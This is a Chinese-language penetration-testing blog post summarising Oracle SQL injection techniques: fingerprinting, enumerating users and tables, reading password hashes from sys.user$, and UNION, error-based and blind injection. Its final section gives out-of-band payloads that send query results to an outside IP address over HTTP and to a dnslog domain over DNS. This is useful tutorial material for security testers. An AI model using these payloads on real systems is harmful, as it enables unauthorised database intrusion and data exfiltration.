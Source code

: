 ```yaml
---
date: 2019-01-04 20:23:35
title: SQL注入 tips(Oracle)
description: 前几天渗透测试时遇到了Oracle的注入，这里简单总结一下Oracle中的SQL注入常见的利用手法：联合查询注入、报错型注入、布尔型注入、无返回值的盲注
categories:
  - Pentest
tags:
  - SQL注入
  - oracle
---
```


### 0x00 判断数据库类型
* Oracle有一些自带的表：dual、user_tables
    * ```id=45 and (select count(*) from user_tables)>0--```
    * ```id=45 and (select count(*) from dual)>0--```

* 利用自带的一些函数：譬如utl_http.request 这些
* 利用Oracle的字符连接符：CHR(97)||CHR(110)||CHR(100)||CHR(32)||CHR(49)||CHR(61)||CHR(49)

### 0x01 基本信息获取
* 查看sid
```
select instance_name from v$instance;
```

* 查看数据库版本：
```
select banner from v$version where rownum=1;
select banner from sys.v_$version where rownum=1;
```

* 查看用户：
```
select user from dual; --当前用户
select username from user_users; --当前用户
select username from all_users; --查看所有用户
select username from dba_users; --查看所有用户(需要有权限)
```

* 查看当前用户角色：
```
select role from session_roles;
```

* 查看数据库用户名和密码：
```
select name, password, astatus from sys.user$; --需要权限
```

* 通过注入获取数据
    ```
    --列database
    select global_name from global_name;
    select sys.database_name from dual;
    select name from v$database;
    select instance_name from v$instance;
    --列owner
    select distinct owner from all_tables;
    --列owner的tables
    select table_name from all_tables where owner='UTEST';
    --列tables的columns
    select column_name from all_tab_columns where table_name='TUSER';
    select column_name from all_tab_cols where table_name='TUSER';


    --列tablespace
    select tablespace_name from user_tablespaces;
    --列tablespace的tables
    select table_name from user_tables where tablespace_name='DB_TEST_DATA';
    --列tables的columns
    select column_name from user_tab_columns where table_name='TUSER';
    ```

### 0x02 UNION query注入

* 存在注入
![70](/img/post/20190103-162239.png)

* 判断列数
![40](/img/post/20190103-162620.png)
![80](/img/post/20190103-162720.png)

* 尝试union select
![60](/img/post/20190103-163005.png)
依次判断字段类型(下图判断出第二个字段是字符型)
![80](/img/post/20190103-163324.png)
![50](/img/post/20190103-163228.png)

* 得到表名  
得到表的个数
![75](/img/post/20190103-164019.png)
得到第一个表的表名
![75](/img/post/20190103-163610.png)
得到第二个表的表名
![75](/img/post/20190103-164519.png)

* 得到第一个表的字段
![80](/img/post/20190103-165302.png)

* 得到第一个表的数据
![80](/img/post/20190103-170336.png)

### 0x03 error-based注入
* ctxsys.drithsx.sn
![60](/img/post/20190104-160714.png)

* dbms_xdb_version.checkin
![80](/img/post/20190104-161325.png)

* dbms_xdb_version.makeversioned
![85](/img/post/20190104-161521.png)

* dbms_xdb_version.uncheckout
![85](/img/post/20190104-161727.png)

* dbms_utility.sqlid_to_sqlhash
![85](/img/post/20190104-161838.png)

* utl_inaddr.get_host_name(在11g以后需要是超级用户或已授予网络访问权限的用户才能使用)
![](/img/post/20190104-203238.png)

### 0x04 boolean-based blind注入
* case...when...
![65](/img/post/Xnip2019-08-12_11-12-32.png)
![65](/img/post/Xnip2019-08-12_11-13-46.png)

* decode

decode(条件，值1，值1结果，值2，值2结果，。。。值n，值n结果，默认值)

条件和那个值相等就返回那个值的结果
![65](/img/post/20190104-165737.png)
![65](/img/post/20190104-165817.png)

* instr

instr(字符串，子串)

从一个字符串中查找指定子串的位置，这里一直将位置置为1
![55](/img/post/20190104-201134.png)
![55](/img/post/20190104-201157.png)
![55](/img/post/20190104-201216.png)

### 0x05 无回显注入
* web服务接收结果
```
select * from utest.msg where id=2 and 1=utl_http.request('http://59.108.35.198:8888/'||(select user from dual));
```

* dns服务接收结果
```
select * from utest.msg where id=2 and (select utl_inaddr.get_host_address((select user from dual)||'.dnslog.wyb0.com') from dual) is not null;
```

* dns服务接收结果
```
select * from utest.msg where id=2 and (select SYS.DBMS_LDAP.INIT((select user from dual)||'.dnslog.wyb0.com',81) from dual) is not null;
```


#### Reference(侵删)：
* [https://www.freebuf.com/articles/web/5411.html](https://www.freebuf.com/articles/web/5411.html?_blank)
* [https://www.iswin.org/2015/06/13/hack-oracle/](https://www.iswin.org/2015/06/13/hack-oracle/?_blank)
* [https://www.freebuf.com/column/146464.html](https://www.freebuf.com/column/146464.html?_blank)

